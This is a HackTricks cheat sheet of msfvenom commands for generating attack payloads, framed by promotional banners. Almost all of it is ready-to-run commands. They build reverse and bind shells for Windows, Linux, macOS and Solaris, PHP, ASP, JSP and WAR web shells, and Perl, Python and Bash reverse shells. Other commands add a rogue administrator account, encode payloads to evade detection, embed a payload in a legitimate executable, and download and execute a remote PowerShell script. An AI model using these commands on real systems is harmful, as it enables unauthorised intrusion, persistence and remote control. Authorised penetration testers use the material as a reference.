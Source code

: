 # MSFVenom - CheatSheet

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

[**Follow HackenProof**](https://bit.ly/3xrrDrL) **to learn more about web3 bugs**

🐞 Read web3 bug tutorials

🔔 Get notified about new bug bounties

💬 Participate in community discussions



`msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>`

One can also use the `-a` to specify the architecture or the `--platform`

## Listing

```bash
msfvenom -l payloads #Payloads
msfvenom -l encoders #Encoders
```

## Common params when creating a shellcode

```bash
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 5 
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```

## **Windows**

### **Reverse Shell**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```

### Bind Shell

```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```

### Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```

### CMD Shell

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```

### **Execute Command**

```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```

### Encoder

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

### Embedded inside executable

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```

## Linux Payloads

### Reverse Shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```

### Bind Shell

```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```

### SunOS (Solaris)

```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```

## **MAC Payloads**

### **Reverse Shell:**

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```

### **Bind Shell**

```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```

## **Web Based Payloads**

### **PHP**

#### Reverse shel**l**

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### ASP/x

#### Reverse shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```

### JSP

#### Reverse shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```

### WAR

#### Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

### NodeJS

```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```

## **Script Language payloads**

### **Perl**

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```

### **Python**

```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```

### **Bash**

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```



<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

[**Follow HackenProof**](https://bit.ly/3xrrDrL) **to learn more about web3 bugs**

🐞 Read web3 bug tutorials

🔔 Get notified about new bug bounties

💬 Participate in community discussions

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
